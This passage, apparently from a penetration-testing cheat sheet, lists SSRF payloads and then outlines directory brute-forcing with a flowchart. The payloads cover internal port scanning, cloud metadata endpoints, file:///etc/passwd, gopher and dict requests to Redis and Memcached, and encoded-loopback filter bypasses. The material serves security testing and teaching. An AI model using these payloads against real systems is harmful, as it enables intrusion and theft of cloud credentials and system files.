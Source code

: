 ### SSRF Payloads

```
# Internal Network Scanning
http://127.0.0.1:80
http://localhost:22
http://192.168.1.1:80
http://10.0.0.1:3306

# Cloud Metadata
http://169.254.169.254/latest/meta-data/
http://metadata.google.internal/computeMetadata/v1/

# Protocol Variations
file:///etc/passwd
gopher://127.0.0.1:6379/_INFO
dict://127.0.0.1:11211/stats

# Bypass Techniques
http://127.1:80
http://0x7f000001:80
http://2130706433:80
```

---

## 📁 Directory Brute Force

### Overview
Directory brute force attacks attempt to discover hidden directories and files on web servers.

### Directory Brute Force Flowchart

```mermaid
flowchart TD
    A[Start Directory Brute Force] --> B[Gather Target Information]
    B --> C[Select Wordlists]
    C --> D[Configure Tools]
    D --> E[Start Brute Force]
    E --> F{Response Analysis}
    F -->|200 OK| G[Valid Directory Found]
    F -->|403 Forbidden| H[Protected Directory]
    F -->|404 Not Found| I[Continue Scanning]
    F -->|301/302 Redirect| J[Follow Redirects]
    G --> K[Enumerate Contents]
    H --> L[Bypass Techniques]
    J --> M[Analyze Redirect Target]
    K --> N[Recursive Scanning]
    L --> O{Bypass Successful?}
    O -->|Yes| K
    O -->|No| P[Document Finding]
    M --> Q{Interesting Target?}
    Q -->|Yes| K
    Q -->|No| I
    N --> R[File Discovery]
    R --> S[Sensitive Data Check]
    S --> T[Impact Assessment]
    I --> U{Scan Complete?}
    U -->|No| E
    U -->|Yes| V[Compile Results]
    P --> V
    T --> V
    V --> W[Report Generation]
```